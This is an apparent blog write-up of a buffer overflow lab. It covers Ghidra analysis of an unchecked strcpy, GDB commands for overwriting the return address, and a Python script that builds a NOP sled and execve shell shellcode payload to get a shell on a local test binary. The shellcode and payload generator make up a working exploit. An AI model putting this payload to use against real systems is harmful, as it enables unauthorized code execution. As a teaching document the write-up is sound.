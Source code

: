 ```yaml
---
title: "Exploiting a Stack Buffer Overflow"
description: "Step-by-step technical writeup of a stack buffer overflow lab, including vulnerability analysis with Ghidra, debugging with GDB, shellcode crafting, and successful exploitation."
image: /images/BufferOverFlow/buffover.png
date: 2025-09-12 20:00:00 +00:00
categories: [pwn]
tags: [reverse, pwn, ghidra, gdb, exploit, buffer-overflow]
---
```



# Exploiting a stack buffer overflow

## Part 1: Analyze the target

### Execution

![alt text](/images/BufferOverFlow/execution_bof.png)

### Ghidra analyse
the problem come from the `vuln` function , and exactly using `strcpy` function witout boundaries checking , in fact this fonction copy all our input into the stack starting from the  `local_108` pointer so if our input size is big enough (the second case of the execution part) this operation of copy may override the return adress and modify the essential adresses like RET and that what hapen in our `segmentation fault` , it is because `buffer overflow` vulnerability and the leak of stack protector.

![alt text](/images/BufferOverFlow/bof_ghidra.png)

this test with `gdb` show that `the buffer overflow` is happen because  of `strcpy` function and modifying the adress of return `RET` and that lead  to  `segmentation fault`.

![alt text](/images/BufferOverFlow/gdb_bof.png)

using this wit `$L = 256$`:
```sh
$gdb bof
$run "$(python3 -c 'print("A"*(L+8) + "B"*6)')"
$info reg
```

our output shows that we've successfully overwritten the rip (instruction pointer) with the value 0x424242424242, which is the hexadecimal representation of the "BBBBBB" pattern. This confirms the following:

   - Calculated Padding is Correct: The length of (256 + 8) "A" characters followed by 6 "B" characters correctly reaches and overwrites the return address.

   - Precise Control Achieved: Since rip now holds 0x424242424242, we have precise control over the return address. This means we can replace the "BBBBBB" pattern with any address we'd like the program to jump to.

![alt text](/images/BufferOverFlow/reg_gdb_bof.png)

## Part 2: set up a shell code

### Cenerating the payload

we encanter some issus to make this party using `python -c` command so we start by generation the payload using 

```python
import struct

L = 256
# Shellcode (27 bytes)
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

# NOP sled (16 bytes)
nop_sled = b"\x90" * 16

# Offset to RIP (adjust this based on your findings)
offset = L + 8

# Padding
padding_size = offset - len(nop_sled) - len(shellcode)
padding = b"A" * padding_size

# Placeholder for return address (we'll replace this later)
return_address = b"BBBBBB"

payload = nop_sled + shellcode + padding + return_address

with open("payload", "wb") as f:
    f.write(payload)

print(f"Payload written to 'payload' file. Total length: {len(payload)} bytes")
f.close()

```

after we have generate the payload , we replay the last process with this payload , we had succefully store this shell code at the beginning of the input buffer and also make the `rip` value `0x424242424242` (BBBBBB) but we need a valid adress to avoid crash

![alt text](/images/BufferOverFlow/shell_gdb.png)

### Os injection
Using `gdb`, we retrieve the address of our code: `buffer_address = b"0x7fffffffdb28"`. We then generate our payload using the previously provided Python script and execute our attack. As a result, we successfully gain a shell.


![alt text](/images/BufferOverFlow/bash_inj.png)














